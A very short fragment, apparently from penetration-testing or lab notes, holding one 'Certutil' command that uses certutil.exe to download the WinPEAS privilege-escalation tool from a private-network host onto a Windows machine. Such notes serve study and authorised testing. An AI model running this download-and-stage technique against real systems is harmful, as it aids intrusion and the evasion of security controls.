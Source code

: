 
Certutil command 
```
certutil.exe -urlcache -f http://192.168.205.128/winpeas.exe winpeas.exe
```

